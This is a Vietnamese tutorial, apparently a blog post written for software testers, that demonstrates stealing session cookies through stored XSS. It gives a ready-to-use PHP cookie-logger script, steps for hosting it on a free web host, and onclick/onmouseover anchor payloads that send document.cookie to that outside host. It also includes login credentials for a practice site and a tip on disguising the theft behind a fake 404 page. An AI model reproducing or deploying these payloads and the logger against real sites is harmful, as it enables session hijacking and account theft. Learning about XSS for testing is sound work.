 Thông thường khi tạo TC cho một textbox ta sẽ có một case để check lổ hổng bảo mật XSS như bên dưới:

1. Nhập đoạn test script sau vào textbox : <script>alert("xss error") </script>
2. Xác nhận rằng script sẽ không được thực thi, không xuất hiện alert pop-up với nội dung "xss error"

Đại khái nội dung TC là thế, dùng để kiểm tra lỗi bảo mật XSS , chúng ta có thể kết luận TC là Fail nếu đoạn script trên được thực thi, alert pop-up xuất hiện nhưng thực sự lổ hổng này nguy hiểm như thế nào, và cách khai thác lỗ hổng này để đánh cắp thông tin người dùng thì chúng ta chưa được biết hoặc chưa nắm rõ. OK, mình sẽ demo cách lợi dụng lỗi bảo mật XSS để đánh cắp cookie 


Đầu tiên đây là những gì chúng ta cần

# 1. Một code đánh cắp cookie:

Không phải DEV nên mình google, khá là nhiều khi bạn tìm với keyword “cookie stealer” , sau nhiều lần tìm kiếm và thử nghiệm thì mình tìm được 1 đoạn code viết bằng php chạy hiệu quả như bên dưới, lấy xài luôn nhé :D


```
<?php
    $cookie = $_GET["c"];
    $file = fopen('logs.txt', 'a');
    fwrite($file, $cookie . "\n\n");
    
?>
```

Copy vào notepad++ và save với extension php nhé ( ex: xssError.php ), ý nghĩa đoạn code trên chỉ là lấy cookie xong ghi vào file logs.txt thôi, tùy vào nội dung đoạn code mà mình có thể lấy được nhiều thông tin hơn như IP address, port number, user agent …. . À rồi, mình cần tạo thêm 1 file logs.txt nữa, để trống thôi không cần nội dung. 
# 2. Cần có một free Web hosting service
#  
 Web hosting service để chứa 2 file trên, nhớ là free thôi nhé , demo chơi thôi mà :v mình tìm hộ lun , các bạn sử dụng https://www.000webhost.com nhé, ngon + bổ + rẻ :D

Bạn có thể sign-up nhanh bằng acc gmail  , sign-up thành công ở Homepage sẽ có giao diện thế này :
![](https://images.viblo.asia/0495f758-e766-42ce-8765-ced3260fc96a.png)


Click vào Build Website nhé, tên web để trống cũng được, chọn pass thôi:
![](https://images.viblo.asia/8d3e85bb-62e1-4c57-8f96-d6940ee7d03b.png)

Nhấn Create sẽ đến màn hình này 
![](https://images.viblo.asia/6f0656bf-22eb-484a-9393-9c060fe34475.png)

Click vào Upload Own Website nhé, sau đó upload 2 files xssError.php và Logs.txt bạn chuẩn bị ở trên vào public_html folder như bên dưới, vậy là xong các bước chuẩn bị, bây giờ đi tìm nạn nhân thôi (go)
![](https://images.viblo.asia/c9c269ea-44fb-4c56-b126-e4fc0ea40c5f.png)

# 3. Nạn nhân để thực hành lổ hổng bảo mật XSS : http://www.techpanda.org/index.php

Account: admin@google.com / Password2010

Đây là trang được tạo ra để thực hành thử nghiệm XSS nhé. Sau khi đến Dashboard thì tạo record mới như bên dưới
  +  Click  Add New Contact
  +  Nhập đoạn script bên dưới vào ô First name

```
<a href=# onclick=\"document.location=\'https://imploratory-carload.000webhostapp.com/XSSError.php?c=\'+escape\(document.cookie\)\;\">XSSError</a>
```


Ngoài thao tác click thì ta có thể chèn script với thao tác onmouseover 

```
<a onmouseover=\"document.location=\'https://imploratory-carload.000webhostapp.com/XSSError.php?c=\'+escape\(document.cookie\)\;\">XSSError</a>
```


Với đoạn script trên thì chỉ cần người dùng di chuyển mouse đến đoạn text XSSError thì cũng có thể bị mất cookie rồi.


Ngoài ra còn nhiều kiểu để chèn script đánh cắp cookie nữa mình sẽ bổ sung dần cho mọi người .

https://imploratory-carload.000webhostapp.com/XSSError.php << đây là link đường dẫn file XSSError.php mà mình upload ở phần 2, First name bây giờ sẽ hiển thị dưới dạng Hyperlink là XSSError , khi người dùng click vào thì sẽ chuyển đến trang php có đoạn code đánh cắp cookie ở trên, dĩ nhiên hiện tại mình chỉ demo đánh cắp cookie thôi nên nạn nhân sẽ thấy hiển thị 1 trang blank khá thô thiển :)) một số hacker có thể ngụy trang bằng cách hiển thị dưới dạng một đường link 404 - Page not found và một link di chuyển về Homepage để nạn nhân tiếp tục sử dụng mà không nghi ngờ mình đã bị đánh cắp cookie :D

![](https://images.viblo.asia/0d916ccc-04b9-46d0-a865-131290a35a64.png)

Theo happy path thì ta sẽ có một nạn nhân ngờ nghệch click vào hyperlink trên, đến file logs để thu hoạch thôi : https://imploratory-carload.000webhostapp.com/logs.txt 

Ta sẽ có được cookie là PHPSESSID của nạn nhân (len)

Mình sẽ bổ sung thêm phần sử dụng cookie đánh cắp ở trên để login account….. Hẹn phần sau sẽ rõ (bow)

Bài viết có tham khảo từ : https://www.guru99.com/how-to-hack-website.html